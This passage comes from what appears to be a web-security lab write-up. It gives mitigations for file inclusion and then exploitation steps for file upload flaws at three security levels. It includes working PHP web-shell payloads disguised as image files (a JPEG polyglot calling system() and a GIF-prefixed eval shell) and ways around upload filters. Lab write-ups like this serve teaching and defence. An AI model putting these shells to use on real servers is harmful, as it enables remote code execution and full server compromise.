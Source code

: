### Mitigation and Fixes

1. **Whitelist Approach:** 
   - Implement a strict whitelist of allowed files or pages.
   - Example: 
     ```php
     $allowed_pages = ['home.php', 'about.php', 'contact.php'];
     $page = $_GET['page'] ?? 'home.php';
     if (in_array($page, $allowed_pages)) {
         include $page;
     } else {
         // Handle error or redirect
     }
     ```

2. **Disable Remote File Inclusion:**
   - Set `allow_url_include` to `Off` in the PHP configuration.
   - This prevents the inclusion of remote files, mitigating RFI attacks.

## Vulnerability 3: File Upload

### Description

File Upload vulnerabilities occur when a web application allows users to upload files without properly validating or sanitizing them. This can lead to the execution of malicious code on the server, potentially resulting in complete system compromise.

### Exploitation Steps

1. **Low Security Level:**
   - Direct upload of a PHP shell is possible.
   - Access the uploaded shell via URL to execute commands.

2. **Medium Security Level:**
   - The application checks file extensions (allowing only .jpeg or .png).
   - Bypass methods:
     a. Rename the shell file (e.g., `shell.php.png`).
     b. Modify the Content-Type header using a proxy like Burp Suite.
   - Additional bypass method:
     c. Use a polyglot file that is both a valid image and contains PHP code.
        Example:
        ```php
        ÿØÿàJFIF<?php system($_GET['cmd']); ?>
        ```
        Save this as `shell.jpg`. It's a valid JPEG and contains PHP code.

3. **High Security Level:**
   - Requires bypassing extension, Content-Type, and content checks.
   - Method:
     a. Keep the first two lines of a valid image file (signature).
     b. Append the PHP shell code after these lines.
   - Alternative method without using a proxy:
     c. Use PHP's built-in wrappers to execute code:
        ```php
        GIF89a;
        <?php
        $code = base64_decode($_GET['code']);
        eval($code);
        ?>
        ```
        Save as `shell.gif` and use with: `shell.gif?code=base64_encoded_php_code`

